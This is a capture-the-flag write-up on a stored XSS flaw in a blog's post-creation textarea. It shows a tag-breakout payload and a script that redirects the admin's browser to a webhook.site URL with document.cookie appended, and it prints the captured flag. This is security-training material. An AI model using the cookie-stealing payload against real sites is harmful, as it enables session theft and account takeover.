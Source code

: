 # Challenge `Go on and censor my posts` Writeup

- Vulnerability: 
  - XSS attack
- Where:
  - Blogpost creation content
- Impact:
  - allows to steal remote user's cookie

## Analyzing the server

This challenges consists in grabbing the admins' cookies.

Trying to inject JavaScript code in the search bar or in the new blogpost area will not work if the input is simply
`<script>aler(1)</script>`, reviewing the source code reveals that the input is being rendered as plain text.

## Exploit

Start by creating a new post with some random title and content.
Then, by opening the source code of the page, notice that the content is a textarea and whatever we enter is then
rendered on the screen after clicking the `Update post` button.
This means that we can close the textarea tag and inject JavaScript code that when rendered will execute.
It's possible to test this by injecting `</textarea><script>alert(1)</script>`  and clicking the `Update post` button.  
To steal the admin's cookie, we can re-use the payload from the previous challenge that sends a GET request   
to a webhook site with the `document.cookie` appended to the URL.
Write the following payload in the content textarea:
`</textarea><script>location='https://webhook.site/your-unique-id/'+document.cookie;</script>`
and click `Update post and send it for admin review` button.
This will then be loaded on the admin's browser and the cookie will be sent to the webhook site, revealing the cookie `SSof{Reject_this_blogpost.Too_many_weird_chars.I_dont_get_it}`

## Implementation

No script needed.